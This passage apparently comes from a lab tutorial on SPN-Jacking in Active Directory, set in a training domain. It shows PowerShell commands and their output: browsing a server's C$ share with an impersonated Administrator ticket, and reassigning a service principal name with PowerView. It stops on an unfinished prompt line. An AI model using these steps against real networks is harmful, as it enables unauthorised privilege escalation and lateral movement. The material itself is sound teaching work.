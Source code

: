 We gain access to a ticket as the Administrator on WEB01. The attack chain we perform can be illustrated as follows:

![text](tj0KYXKgRBCu.png)

Finally we can use our need ticket to gain access to WEB01:

```powershell
PS C:\Tools> ls \\web01\c$
  Directory: \\web01\c$

Mode        LastWriteTime    Length Name
----        -------------    ------ ----
d-----    2/25/2022 10:20 AM        PerfLogs
d-r---    10/6/2021 3:50 PM        Program Files
d-----    9/15/2018 4:06 AM        Program Files (x86)
d-----    3/19/2022 5:56 AM        Temp
d-----    3/27/2024 2:55 PM        Tools
d-r---    3/21/2024 6:11 AM        Users
d-----    3/19/2022 6:03 AM        Windows

```

## Live SPN-Jacking Detailed Explanation

Unlike the `Ghost SPN-Jacking` scenario, which involves passive manipulation of SPNs, `Live SPN-Jacking` requires active manipulation of SPNs currently in use within the network environment. This technique is more complex than the former as it involves manipulating live SPNs, which requires a more subtle understanding of Active Directory's delegation and permission intricacies.

![text](XZ9aHlbTwltb.png)

In this context, we explore the scenario with `SRV01`, a server configured for Constrained Delegation with an SPN currently linked to `EXCH03` and `DBSRV003`. Importantly, we have `WriteSPN` rights on `DBSRV003` and `WEB01`.

Typically, in environments with up-to-date security updates in the Active Directory environment, only Domain Admins can assign the duplicate SPN to different accounts due to the potential for conflict. Attempting to assign an SPN already associated with `DBSRV003` to `WEB01` would usually be blocked by the Domain Controller to prevent such disputes.

```powershell
PS C:\Tools> Set-DomainObject -Identity WEB01$ -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=WEB01$)(name=WEB01$)(displayname=WEB01$))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'dmserver/DBSRV003' for object 'WEB01$'
WARNING: [Set-DomainObject] Error setting/replacing properties for object 'WEB01$' : Exception calling "CommitChanges" with "0" argument(s): "A constraint violation occurred."

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname